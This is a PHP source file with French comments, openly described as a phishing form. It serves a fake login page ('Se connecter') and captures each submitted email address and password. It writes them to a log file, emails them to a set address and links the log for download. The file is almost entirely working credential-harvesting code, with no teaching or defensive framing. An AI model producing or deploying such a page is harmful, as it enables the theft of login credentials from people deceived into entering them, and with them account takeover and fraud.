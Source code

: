 <?php
// Configuration du formulaire de phishing
$target_email = "mail_adresse@example.com"; // Adresse email cible
$subject = "Information d'identification"; // Sujet du email
$log_file = "connections.log"; // Fichier de journalisation

// Vérification de l'adresse email et du mot de passe
if($_SERVER["REQUEST_METHOD"] == "POST") {
    $email = test_input($_POST["email"]);
    $password = test_input($_POST["password"]);

    // Validation de l'adresse email
    if (!filter_var($email, FILTER_VALIDATE_EMAIL)) {
        die("L'adresse email n'est pas valide");
    }

    // Enregistrement des informations d'identification dans le fichier de journalisation
    $log_entry = "Email: $email\nPassword: $password\n------------------------\n";
    file_put_contents($log_file, $log_entry, FILE_APPEND);

    // Envoi des informations d'identification par email
    mail($target_email, $subject, "Email: $email\nPassword: $password");
    echo "Les informations d'identification ont été envoyées avec succès";
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Se connecter</title>
</head>
<body>
    <h2>Se connecter</h2>
    <form method="post" action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>">
        <label for="email">Email:</label>
        <input type="text" id="email" name="email"><br>

        <label for="password">Mot de passe:</label>
        <input type="password" id="password" name="password"><br>

        <input type="submit" value="Se connecter">
    </form>

    <a href="connections.log" download>Télécharger les informations de connexion</a>
</body>
</html>
